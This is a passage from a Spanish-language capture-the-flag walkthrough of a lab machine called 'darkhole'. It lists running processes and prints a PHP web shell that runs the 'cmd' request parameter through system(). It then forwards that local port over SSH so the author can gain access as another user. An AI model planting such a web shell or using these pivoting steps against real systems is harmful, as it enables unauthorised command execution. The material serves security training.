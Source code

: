 Tenemos acceso al una bash pero tenemos que tratarla para que sea mas cómoda para opera por ahí , con esto las flechas funcionan al igual que las combinaciones con Ctrl 
```bash 

export TERM=xterm

```

Bien dentro de aquí con si buscamos que servicios se están ejecutando en la maquina encontraremos que el usuario losy esta ejecutando un servicio de `php` en el puerto `9999` de manera local 

```bash 
 ps -faux 
```

```bash
USER  PID %CPU %MEM   VSZ  RSS TTY STAT START TIME   COMMAND
losy  1259 0.0 0.0   2608  592  ?  Ss  17:23  0:00  \_ /bin/sh -c  cd /opt/web && php -S localhost:9999
losy  1260 0.0 0.4 193672 19280 ?   S  17:23  0:00      \_ php -S localhost:9999
```

Si miramos lo que esta en la carpeta de `/opt/web` que es donde se encuentra el archivo de `php` y veremos de que se trata 

```php

jehad@darkhole:~$ cat /opt/web/index.php 
<?php
echo "Parameter GET['cmd']";
if(isset($_GET['cmd'])){
echo system($_GET['cmd']);
}

?>
```

Pues se trata de una` web shell` como tal así que procedemos a entrar y basta con mandarnos una `reverse shell` y ganar acceso como este usuario  

# losy web Shell

Bien de aqui podemos hacer dos cosas ocupar curl para mandarnos nuestra `reverse shell` o ocupar `ssh` para usar `port forwarding` o usar `chisel`  el chiste es ganar acceso a la maquina como `losy`

En este caso lo haremos por `ssh`  de la siguinte manera 

```bash
ssh jehad@192.168.100.129 -L 9999:127.0.0.1:9999
```

y con esto conseguimos que su puerto 9999 sea accesible de nuestro lado de manera local por nuestro puerto 9999

![Paste](./24.jpeg)
